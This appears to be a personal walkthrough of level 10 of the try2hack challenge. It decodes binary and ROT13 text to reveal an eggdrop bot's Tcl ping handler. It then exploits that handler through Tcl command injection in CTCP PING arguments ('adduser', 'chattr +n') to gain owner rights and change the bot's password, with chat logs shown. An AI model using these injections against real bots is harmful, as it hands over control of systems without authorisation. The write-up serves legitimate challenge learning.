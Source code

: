 #### Level 10

After you have done level 9 you get an IRC channel name and password. After joining you receive a binary welcome message.
```
0100111001101001011000110110010100100000011010100
110111101100010001011100010000001001110011011110111011100100000011101000111100101110000011001010010000
000100111001011110110110101110011011001110010000001010100010100100101100100110010010010000100000101000
011010010110010000001110011011010000110111101110111011000100111010101100111001001110010000001110100011
011110010000001110011011001010110010100100000011101000110100001100101001000000110001001
```

Just go to my favorite binary encoding/decoding site http://www.nickciske.com/tools/binary.php and decode it. 

The result:
```Nice job. Now type '/msg TRY2HACK showbug' to see the bug```

As you can see, you get a command that you must write to the bot to show you the bug. This is what the bot writes back:
```
ovaq pgpe - CVAT pgpe:cvatercyl
cebp pgpe:cvatercyl {avpx hubfg unaq qrfg xrl net} {
frg qhe [rkce [havkgvzr] - $net]
chgfrei "ABGVPR $avpx :Lbhe cvat ercyl gbbx $qhe frpbaqf"}
```

It looked like a script, but the characters were all messed up, so thought this was rot13, which replaces all chars with the char 13 places to the right in the alphabet.
So the only thing I needed was to rot13 it again (26 chars in the alphabet. 13+13):
```php
<?php

print str_rot13('ovaq pgpe - CVAT pgpe:cvatercyl
cebp pgpe:cvatercyl {avpx hubfg unaq qrfg xrl net} {
frg qhe [rkce [havkgvzr] - $net]
chgfrei "ABGVPR $avpx :Lbhe cvat ercyl gbbx $qhe frpbaqf"}');

?>
```

Which results in:
```
bind ctcr - PING ctcr:pingreply
proc ctcr:pingreply {nick uhost hand dest key arg} {
    set dur [expr [unixtime] - $arg]
    putserv "NOTICE $nick :Your ping reply took $dur seconds"}
```
After almost 24 hours, x number cups of coffee, trying and failing, hours googling and reading on eggdrop I finally made it!
The argument sent with the ping are in most irc clients a timestamp, but you can send what you want.
The bot lacks of security, it doesn't check $arg for bad code. Time to exploit.

I tried sending raw data with the /quote command but that didn't work.
I then come across the /nctcp command in Irssi (/ctcpreply for mIRC) which I noticed sent some stuff along with the data that seemed to make a diffrence. I think it was some UTF \x00\x01 thing.

Worked:
```
/nctcp LEVEL10-xxx PING [adduser yournick *!yourident@*]
/nctcp LEVEL10-xxx PING [chattr yournick +n]
```

I changed the password for the bot to '123456' by doing `/msg LEVEL10-xxx pass 123456`

```
[notice(LEVEL10-605)] PING [adduser asdf *!qwer@*]
-LEVEL10-605(try2hack@try2hack.bot) - Your ping reply took 123456789 seconds
[notice(LEVEL10-605)] PING [chattr asdf +n]
-LEVEL10-605(try2hack@try2hack.bot) - Your ping reply took 123456789 seconds
<asdf> pass 123456
-LEVEL10-605(try2hack@try2hack.bot) - Password changed to '123456'
```

Then start a dcc chat with the bot `/dcc chat LEVEL10-xxx`, then the bot will msg you with the URL to level 11, along with this:

```
<LEVEL10-605> Enter your password.
<asdf> 123456
<LEVEL10-605>
<LEVEL10-605> Connected to LEVEL10-0, running eggdrop v1.6.19
<LEVEL10-605>
<LEVEL10-605> Local time is now 19:43
<LEVEL10-605>
<LEVEL10-605> NOT! Welcome in LEVEL10-0, asdf!
<LEVEL10-605> ****************************************************
<LEVEL10-605> *             AUTO LOG OUT!                        *
<LEVEL10-605> ****************************************************
<LEVEL10-605>
<LEVEL10-605> -=- poof -=-
<LEVEL10-605> You've been booted from the bot by LEVEL10-0
-!- Irssi: Closing query with =LEVEL10-605
```

If this doesn't work, then open ports 3713 to 3723, go around your routher or figure out something else.

